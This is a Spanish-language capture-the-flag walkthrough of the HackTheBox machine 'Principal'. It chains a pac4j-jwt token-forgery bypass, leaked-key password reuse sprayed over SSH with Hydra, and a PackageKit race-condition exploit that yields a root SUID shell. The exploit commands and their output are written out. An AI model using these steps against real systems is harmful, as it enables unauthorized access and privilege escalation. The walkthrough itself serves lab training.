



+++
title = "HackTheBox - Principal"
draft = false
description = "Resolución de la máquina Principal"
summary = "OS: Linux | Dificultad: Medium | Conceptos: Jetty, JWT, CVE Público, Reutilización de contraseñas, TOCTOU"
tags = ["HTB", "Linux", "Medium", "Jetty", "CVE", "SSH", "TOCTOU", "JWE", "Password Reuse"]
categories = ["Writeups"]
showToc = true
date = "2026-05-20T00:00:00"
showRelated = true
+++

* Dificultad: `medium`
* Tiempo aprox. `3h`
* **Datos Iniciales**: `10.129.244.220`

## Enumeración inicial
Primero añadimos (por si acaso) `principal.htb` a /etc/hosts.

### Escaneo de puertos
Tras realizar un escaneo de puertos completo, se encuentran los siguientes abiertos:
```bash {hl_lines=[5,9]}
$ sudo nmap -sT -Pn -p- principal.htb # Encuentra 22,8080

$ sudo nmap -sT -Pn -p22,8080 -sVC principal.htb
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b0:a0:ca:46:bc:c2:cd:7e:10:05:05:2a:b8:c9:48:91 (ECDSA)
|_  256 e8:a4:9d:bf:c1:b6:2a:37:93:40:d0:78:00:f5:5f:d9 (ED25519)
8080/tcp open  http-proxy Jetty
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Jetty
| http-title: Principal Internal Platform - Login
|_Requested resource was /login
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Date: Wed, 20 May 2026 17:59:58 GMT
|     Server: Jetty
|     X-Powered-By: pac4j-jwt/6.0.3
|     Cache-Control: must-revalidate,no-cache,no-store
|     Content-Type: application/json
|     {"timestamp":"2026-05-20T17:59:58.138+00:00","status":404,"error":"Not Found","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     Date: Wed, 20 May 2026 17:59:57 GMT
|     Server: Jetty
|     X-Powered-By: pac4j-jwt/6.0.3
|     Content-Language: en
|     Location: /login
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Wed, 20 May 2026 17:59:57 GMT
|     Server: Jetty
|     X-Powered-By: pac4j-jwt/6.0.3
|     Allow: GET,HEAD,OPTIONS
|     Accept-Patch: 
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 505 HTTP Version Not Supported
|     Date: Wed, 20 May 2026 17:59:58 GMT
|     Cache-Control: must-revalidate,no-cache,no-store
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 349
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=ISO-8859-1"/>
|     <title>Error 505 Unknown Version</title>
|     </head>
|     <body>
|     <h2>HTTP ERROR 505 Unknown Version</h2>
|     <table>
|     <tr><th>URI:</th><td>/badMessage</td></tr>
|     <tr><th>STATUS:</th><td>505</td></tr>
|     <tr><th>MESSAGE:</th><td>Unknown Version</td></tr>
|     </table>
|     </body>
|     </html>
|   Socks5: 
|     HTTP/1.1 400 Bad Request
|     Date: Wed, 20 May 2026 17:59:58 GMT
|     Cache-Control: must-revalidate,no-cache,no-store
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 382
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=ISO-8859-1"/>
|     <title>Error 400 Illegal character CNTL=0x5</title>
|     </head>
|     <body>
|     <h2>HTTP ERROR 400 Illegal character CNTL=0x5</h2>
|     <table>
|     <tr><th>URI:</th><td>/badMessage</td></tr>
|     <tr><th>STATUS:</th><td>400</td></tr>
|     <tr><th>MESSAGE:</th><td>Illegal character CNTL=0x5</td></tr>
|     </table>
|     </body>
|_    </html>
1 service unrecognized despite returning data. 
If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.99%I=7%D=5/20%Time=6A0DF69F%P=x86_64-pc-linux-gnu%r(Ge
... [SNIP] ...
SF:CNTL=0x5</td></tr>\n</table>\n\n</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
# Nada en UDP (Solo DHCP)
```

Vemos dos servicios:
- `22/tcp (OpenSSH 9.6p1 Ubuntu)`: SSH, versión vulnerable a RegreSSHion y algunas otras cosas, no relevante para este caso.
- `8080/tcp (http-proxy Jetty)`: Al parecer, un servidor web Jetty (Java). Según nmap:
  - Responde a HTTP OPTIONS correctamente, por lo que entiende HTTP.
  - Al solicitar la página mediante GET redirige a /login
  - El título de la página es Principal Internal Platform.
  - El header X-Powered-By indica que se usa `pac4j-jwt/6.0.3`

### Puerto 8080 - Jetty
Al entrar a la página, encontramos un panel de login hacia lo que parece ser un panel de control. Se indica que se está usando la versión v1.2.0 y pac4j.



La versión de la plataforma parece irrelevante porque no es un servicio estándar y posiblemente sea uno custom para la máquina. Pero si buscamos más acerca de pac4j-jwt/6.0.3:

> ***pac4j-jwt/6.0.3 es vulnerable a [CVE-2026-29000](https://nvd.nist.gov/vuln/detail/CVE-2026-29000). Se trata de una vulnerabilidad que permite hacer un bypass de autenticación, con CVSS 9.3 CRITICAL ([Github](https://github.com/advisories/GHSA-pm7g-w2cf-q238)):***
> *pac4j-jwt versions prior to 4.5.9, 5.7.9, and 6.3.3 contain an authentication bypass vulnerability in JwtAuthenticator when processing encrypted JWTs that allows remote attackers to forge authentication tokens. Attackers who possess the server's RSA public key can create a JWE-wrapped PlainJWT with arbitrary subject and role claims, bypassing signature verification to authenticate as any user including administrators.*

## CVE-2026-29000
Encontramos un PoC público disponible, pero para usarlo necesitamos conocer el endpoint [jwks](https://www.ibm.com/docs/es/sva/11.0.1?topic=applications-jwks). Podemos probar el que se usa normalmente, `/api/auth/jwks`, y vemos que es el correcto.

```bash
$ curl http://principal.htb:8080/api/auth/jwks
{"keys":[{"kty":"RSA","e":"AQAB","kid":"enc-key-1","n":"lTh54vtBS1NAWrxAFU1NEZdrVxPeSMhHZ5NpZX-WtBsdWtJRaeeG61iNgYsFUXE9j2MAqmekpnyapD6A9dfSANhSgCF60uAZhnpIkFQVKEZday6ZIxoHpuP9zh2c3a7JrknrTbCPKzX39T6IK8pydccUvRl9zT4E_i6gtoVCUKixFVHnCvBpWJtmn4h3PCPCIOXtbZHAP3Nw7ncbXXNsrO3zmWXl-GQPuXu5-Uoi6mBQbmm0Z0SC07MCEZdFwoqQFC1E6OMN2G-KRwmuf661-uP9kPSXW8l4FutRpk6-LZW5C7gwihAiWyhZLQpjReRuhnUvLbG7I_m2PV0bWWy-Fw"}]}
```

Ahora que conocemos el endpoint, podemos usar el exploit.

El exploit nos permite obtener un token de autenticación como cualquier usuario y con cualquier rol, aunque el problema que tenemos ahora es que no conocemos el usuario como el que queremos autenticarnos, ni un rol válido.

### Buscando usuarios
Podemos probar con los más comunes a fuerza bruta, hasta que funcione uno. Los que usa el exploit por defecto son User `admin` y Role `ROLE_ADMIN`.

Para probar a mandar el token, tenemos que encontrar cómo se manda al servidor o dónde espera recibirlo. Si miramos en BurpSuite, vemos que cuando intentamos iniciar sesión, de primeras no se manda nada con `Authorization: Bearer ...`, ni tampoco se manda ninguna cookie.



Si miramos el código javascript de la página en `static/js/app.js`, veremos cómo espera recibir la página el token y bastante más información:

```app.js
// static/js/app.js
//...
// Token management
class TokenManager {
    static getToken() {
        return sessionStorage.getItem('auth_token');
    }
// ...
```

Podemos encontrar todos los datos de funcionamiento de la página.

```js
/**
 * Principal Internal Platform - Client Application
 * Version: 1.2.0
 *
 * Authentication flow:
 * 1. User submits credentials to /api/auth/login
 * 2. Server returns encrypted JWT (JWE) token
 * 3. Token is stored and sent as Bearer token for subsequent requests
 *
 * Token handling:
 * - Tokens are JWE-encrypted using RSA-OAEP-256 + A128GCM
 * - Public key available at /api/auth/jwks for token verification
 * - Inner JWT is signed with RS256
 *
 * JWT claims schema:
 *   sub   - username
 *   role  - one of: ROLE_ADMIN, ROLE_MANAGER, ROLE_USER
 *   iss   - "principal-platform"
 *   iat   - issued at (epoch)
 *   exp   - expiration (epoch)
 */

 const API_BASE = '';
 const JWKS_ENDPOINT = '/api/auth/jwks';
 const AUTH_ENDPOINT = '/api/auth/login';
 const DASHBOARD_ENDPOINT = '/api/dashboard';
 const USERS_ENDPOINT = '/api/users';
 const SETTINGS_ENDPOINT = '/api/settings';
```

El JWT debe tener un nombre de usuario válido, un rol (para nuestro caso, ROLE_ADMIN), un issuer (principal-platform), y tiempo de emisión y expiración.

Así que generamos un JWT con el exploit que contenga todo lo necesario (lo que no se indica explícitamente lo pone de forma automática el exploit):
```bash
$ python3 CVE-2026-29000.py --issuer principal-platform --url http://principal.htb:8080 --jwks /api/auth/jwks --role ROLE_ADMIN --user admin

[+] Forged JWE token:

eyJhbGciOiJSU0EtT0FFUC0yNTYiLCJlbmM...
[SNIP]...
```

Ahora lo añadimos al navegador


Y recargamos la página, pero no parece funcionar.

De todas formas, es posible que la página principal no requiera el token y simplemente nos pida iniciar sesión con las credenciales, puede ser que el token sirva para otro servicio.

### Consiguiendo información
Dado que el token no funcionaba en la página principal, vamos a algunos de los endpoints API, p.ej, `/api/settings`. Si solicitamos la página, vemos que efectivamente pide un token:
```bash
$ curl http://principal.htb:8080/api/settings                     
{"error":"Unauthorized","message":"Bearer token required"}
```

Así que aquí es donde lo necesitamos. Creamos un token y lo mandamos junto con la solicitud.
```bash
$ curl http://principal.htb:8080/api/settings -H 'Authorization: Bearer eyJhbGciOi...[SNIP]...3LlMEGQ'

{
  "security": {
    "authFramework": "pac4j-jwt",
    "authFrameworkVersion": "6.0.3",
    "jwtAlgorithm": "RS256",
    "jweAlgorithm": "RSA-OAEP-256",
    "jweEncryption": "A128GCM",
    "encryptionKey": "D3pl0y_$$H_Now42!",
    "tokenExpiry": "3600s",
    "sessionManagement": "stateless"
  },
  "system": {
    "serverType": "Jetty 12.x (Embedded)",
    "javaVersion": "21.0.10",
    "applicationName": "Principal Internal Platform",
    "version": "1.2.0",
    "environment": "production"
  },
  "infrastructure": {
    "sshCaPath": "/opt/principal/ssh/",
    "sshCertAuth": "enabled",
    "database": "H2 (embedded)",
    "notes": "SSH certificate auth configured for automation - see /opt/principal/ssh/ for CA config."
  },
  "integrations": [
    {
      "status": "connected",
      "name": "GitLab CI/CD",
      "lastSync": "2025-12-28T12:00:00Z"
    },
    {
      "status": "connected",
      "name": "Vault",
      "lastSync": "2025-12-28T14:00:00Z"
    },
    {
      "status": "connected",
      "name": "Prometheus",
      "lastSync": "2025-12-28T14:30:00Z"
    }
  ]
}
```

Y vemos que, con el usuario `admin`, efectivamente ha funcionado. Ya tenemos la forma de conseguir tokens válidos, y también hemos conseguido la clave de cifrado de los tokens (`D3pl0y_$$H_Now42!`).

Aprovechando la situación, podemos hacer una solicitud al endpoint `/api/users` para enumerar algunos usuarios.
```bash
{
  "total": 8,
  "users": [
    {
      "active": true,
      "role": "ROLE_ADMIN",
      "note": "",
      "username": "admin",
      "email": "s.chen@principal-corp.local",
      "displayName": "Sarah Chen",
      "department": "IT Security",
      "id": 1,
      "lastLogin": "2025-12-28T09:15:00Z"
    },
    {
      "active": true,
      "role": "deployer",
      "note": "Service account for automated deployments via SSH certificate auth.",
      "username": "svc-deploy",
      "email": "svc-deploy@principal-corp.local",
      "displayName": "Deploy Service",
      "department": "DevOps",
      "id": 2,
      "lastLogin": "2025-12-28T14:32:00Z"
    },
    {
      "active": true,
      "role": "ROLE_USER",
      "note": "Team lead - backend services",
      "username": "jthompson",
      "email": "j.thompson@principal-corp.local",
      "displayName": "James Thompson",
      "department": "Engineering",
      "id": 3,
      "lastLogin": "2025-12-27T16:45:00Z"
    },
    {
      "active": true,
      "role": "ROLE_USER",
      "note": "Frontend developer",
      "username": "amorales",
      "email": "a.morales@principal-corp.local",
      "displayName": "Ana Morales",
      "department": "Engineering",
      "id": 4,
      "lastLogin": "2025-12-28T08:20:00Z"
    },
    {
      "active": true,
      "role": "ROLE_MANAGER",
      "note": "Operations manager",
      "username": "bwright",
      "email": "b.wright@principal-corp.local",
      "displayName": "Benjamin Wright",
      "department": "Operations",
      "id": 5,
      "lastLogin": "2025-12-26T11:30:00Z"
    },
    {
      "active": false,
      "role": "ROLE_ADMIN",
      "note": "Security analyst - on leave until Jan 6",
      "username": "kkumar",
      "email": "k.kumar@principal-corp.local",
      "displayName": "Kavitha Kumar",
      "department": "IT Security",
      "id": 6,
      "lastLogin": "2025-12-20T10:00:00Z"
    },
    {
      "active": true,
      "role": "ROLE_USER",
      "note": "QA engineer",
      "username": "mwilson",
      "email": "m.wilson@principal-corp.local",
      "displayName": "Marcus Wilson",
      "department": "QA",
      "id": 7,
      "lastLogin": "2025-12-28T13:10:00Z"
    },
    {
      "active": true,
      "role": "ROLE_MANAGER",
      "note": "Engineering director",
      "username": "lzhang",
      "email": "l.zhang@principal-corp.local",
      "displayName": "Lisa Zhang",
      "department": "Engineering",
      "id": 8,
      "lastLogin": "2025-12-28T07:55:00Z"
    }
  ]
}
```

Ahora que ya hemos recolectado ciertos datos, podríamos probar a meter todos los usuarios en una lista, y, si con suerte se han reutilizado credenciales, quizás alguno de ellos use `D3pl0y_$$H_Now42!` como contraseña en SSH.

```bash
$ cat users         
admin
svc-deploy
jthompson
amorales
bwright
kkumar
mwilson
lzhang

$ hydra -L users -p 'D3pl0y_$$H_Now42!' ssh://principal.htb
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] attacking ssh://principal.htb:22/
[22][ssh] host: principal.htb   login: svc-deploy   password: D3pl0y_$$H_Now42!
```

Y, en efecto, tenemos unas credenciales, `svc-deploy`:`D3pl0y_$$H_Now42!`.

Probamos las credenciales y...
```bash
$ ssh svc-deploy@principal.htb
svc-deploy@principal.htb's password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

svc-deploy@principal:~$
```

Ya tenemos un shell.

## Privesc por SHH
Contando con que la máquina tiene dos meses, es muy probable que con [CopyFail](https://socprime.com/active-threats/cve-2026-31431-copy-fail-linux-root-escalation/) o [DirtyFrag](https://www.incibe.es/incibe-cert/alerta-temprana/avisos/escalada-local-de-privilegios-en-el-kernel-de-linux-dirty-frag) podamos llegar a root en un par de pasos, pero por respeto a (prácticamente todas) las máquinas de HTB de Linux que serán vulnerables, vamos a buscar una alternativa.

### Enumeración inicial
Probamos a ver si podemos ejecutar sudo, pero nada.
```bash
svc-deploy@principal:~$ sudo -l
[sudo] password for svc-deploy: 
Sorry, user svc-deploy may not run sudo on principal.
```

- Miramos puertos en escucha, pero tampoco parece haber nada interesante.
- Buscamos archivos con bit SUID, pero no hay nada fuera de lo común.
- Miramos cronjobs, pero no hay nada.
- Ejecutamos LinPEAS, pero no reconozco nada que llame la atención.

### Análisis con Trivy
Como seguimos sin tener nada, subo `trivy` al servidor junto con su base de datos.

```bash
$ scp db.tar.gz svc-deploy@principal.htb:/tmp/trivyd/trivydb.tar.gz
svc-deploy@principal.htb's password:

$ scp ./trivy svc-deploy@principal.htb:/tmp/trivyd/trivy
svc-deploy@principal.htb's password:
```

Ahora lo ejecutamos en la máquina.
```bash
# Comprobamos que está todo
svc-deploy@principal:/tmp/trivyd$ ls
trivy  trivydb.tar.gz

# Descomprimimos la base de datos
svc-deploy@principal:/tmp/trivyd$ tar -xf trivydb.tar.gz 

# Creamos directorio db, trivy lo necesita para encontrar la base de datos.
svc-deploy@principal:/tmp/trivyd$ mkdir db
svc-deploy@principal:/tmp/trivyd$ mv metadata.json trivy.db db

# Lo ejecutamos y guardamos en un archivo el resultado.
./trivy rootfs --offline-scan --skip-db-update --cache-dir /tmp/trivyd --scanners vuln --severity CRITICAL,HIGH --format json --pkg-types os / 2>/dev/null > resultados

# Miramos el resultado
grep 'privilege esc' resultados | sort -u
```

Al abrir el análisis, encontramos lo siguiente:
- [`CVE-2026-41651`](https://nvd.nist.gov/vuln/detail/CVE-2026-41651): TOCTOU race in PackageKit's transaction handler. Any local unprivileged user can install arbitrary packages as root with no authentication.

### Pack2TheRoot
Encontramos un [PoC](https://github.com/Vozec/CVE-2026-41651) público que aprovecha esta vulnerabilidad. 

Lo descargamos y lo subimos a la máquina, luego lo ejecutamos.

```bash
svc-deploy@principal:/tmp$ ./cve-2026-41651 
═══════════════════════════════════════════════════
 CVE-2026-41651 — PackageKit TOCTOU LPE
═══════════════════════════════════════════════════
[*] Building packages (pure C)...
[+] dummy   : /tmp/.pk-dummy-38470.deb
[+] payload : /tmp/.pk-payload-38470.deb
[*] Transaction : /2_ebeacecb
[*] Step 1 : InstallFiles(SIMULATE=0x4, dummy) [async]
[*] Step 2 : InstallFiles(NONE=0x0, payload) [async]
[*] Waiting for dispatch (30 s max)...
[!] PK error 48: Failed to obtain authentication.
[*] Finished (exit=2, 0 ms)
[*] Loop ran for 37 ms
[*] Polling for payload (120 s max)...
[*] t+1s: payload=exists dpkg_lock=free suid=not yet
[*] t+2s: payload=exists dpkg_lock=free suid=not yet
[*] t+3s: payload=exists dpkg_lock=free suid=not yet

[+] SUCCESS — SUID bash at t+2300ms
uid=1001(svc-deploy) gid=1002(svc-deploy) euid=0(root) groups=1002(svc-deploy),1001(deployers)
.suid_bash: cannot set terminal process group (-1): Inappropriate ioctl for device
.suid_bash: no job control in this shell
.suid_bash-5.2# whoami
root
```

Y tenemos root.
